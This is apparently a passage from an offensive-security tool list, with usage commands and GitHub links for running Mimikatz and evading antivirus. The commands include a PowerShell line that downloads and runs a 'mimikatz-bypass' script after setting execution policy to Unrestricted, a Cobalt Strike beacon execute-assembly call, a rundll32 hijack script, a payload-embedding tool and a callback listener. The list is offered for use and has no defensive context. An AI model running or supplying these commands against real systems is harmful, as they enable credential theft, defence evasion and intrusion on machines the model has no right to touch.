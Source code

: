 ```
mimi.bat
.\rundll32-hijack.ps1
```

https://github.com/farzinenddo/SeveralWaysToExecuteMimikatz/blob/main/LoadMimikatzWithDinvoke.cs



### mimikatz-bypass

```
Invoke-WebRequest https://raw.githubusercontent.com/corneacristian/mimikatz-bypass/master/mimikatz-bypass.ps1 -OutFile mimikatz-bypass.ps1
Set-ExecutionPolicy Unrestricted
.\mimikatz-bypass.ps1
```

https://github.com/corneacristian/mimikatz-bypass




### Utils

```
dotnet build -r win10-x64
katz.exe <MIMIKATZ_COMMAND>
```

https://github.com/ITh4cker/Utils



### Eyeworm

```
python3 eyeworm.py -t <PAYLOAD_TYPE> -c <COMMAND> -o <OUTPUT_FILE>
python3 eyeworm.py -i <INPUT_FILE> -p <PAYLOAD_FILE> -o <OUTPUT_FILE>
```

https://github.com/imsellbaox/Eyeworm



### drunkenkatz

```
beacon> execute-assembly /root/drunkencat.exe -i -g -k -c "python drunkenkatz.py"
```

https://github.com/ap3r/drunkenkatz


### CallBack

```
python3 CallBack.py -i <LOCAL_IP_ADDRESS> -p <LOCAL_PORT>
```

https://github.com/mobdk/CallBack
